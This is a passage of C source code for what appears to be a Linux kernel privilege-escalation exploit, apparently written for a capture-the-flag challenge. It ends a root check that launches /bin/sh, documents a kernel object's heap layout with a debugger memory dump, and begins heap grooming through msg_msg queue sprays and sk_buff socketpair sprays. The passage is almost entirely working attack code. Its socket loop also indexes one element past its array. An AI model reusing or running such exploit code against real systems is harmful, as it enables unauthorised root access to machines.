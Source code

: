 ```c
    system("/bin/sh");
  } else {
    puts("[-] failed to get root");
  }
}

// structure of chemical (size 0x100):
//-0x28: user_2
// ...
// 0x00: 0x0 unknown_1
// 0x10: unknown_2 idx
// 0x20: *fd *bk
// 0x30: size *user_1
// eg.
// gef> x/32gx 0xffff888100f8cd00
// 0xffff888100f8cd00:     0x0000000000000000      0x0000000000000000
// 0xffff888100f8cd10:     0x0000000000000000      0x0000000000000000
// 0xffff888100f8cd20:     0x0000000000000000      0x0000000000000000
// 0xffff888100f8cd30:     0x0000000000000000      0x0000000000000000
// 0xffff888100f8cd40:     0x0000000000000000      0x0000000000000000
// 0xffff888100f8cd50:     0x0000000000000000      0x0000000000000000
// 0xffff888100f8cd60:     0x0000000000000000      0x0000000000000000
// 0xffff888100f8cd70:     0x0000000000000000      0x0000000000000000
// 0xffff888100f8cd80:     0x0000000000000000      0x0000000000000000
// 0xffff888100f8cd90:     0x0000000000000000      0x0000000000000000
// 0xffff888100f8cda0:     0x0000000000000000      0x0000000000000000
// 0xffff888100f8cdb0:     0x0000000000000000      0x0000000000000000
// 0xffff888100f8cdc0:     0x0000000000000000      0x00000000deadbeef
// 0xffff888100f8cdd0:     0x00000000cafebabe      0x0000000000000000
// 0xffff888100f8cde0:     0xffffffffc0002640      0xffff888100f8cce0
// 0xffff888100f8cdf0:     0x0000000000000040      0xffff888100fb3540

int main() {
  // set cpu to 1 thread
  cpu_set_t cpu;
  CPU_ZERO(&cpu);
  CPU_SET(0, &cpu);
  sched_setaffinity(getpid(), sizeof(cpu), &cpu);

  // save registers
  save_state();

  // msg_msg queues
  size_t msgs_spray = 0x5000;
  size_t msg_queues[msgs_spray];
  for (int i = 0; i < msgs_spray; i++) {
    msg_queues[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  }

  // create sk_buffs
  size_t socket_num = 0x4;
  size_t skbuff_num = 128;
  size_t sk_sockets[socket_num][2];
  for (int i = 0; i <= socket_num; i++) {
    if (socketpair(AF_UNIX, SOCK_STREAM, 0, sk_sockets[i])) {
      perror("socketpair");
      return 1;
    }
  }

  // payload buffers
  char* buf0 = malloc(0x200);
  char* buf1 = malloc(0x200);
```
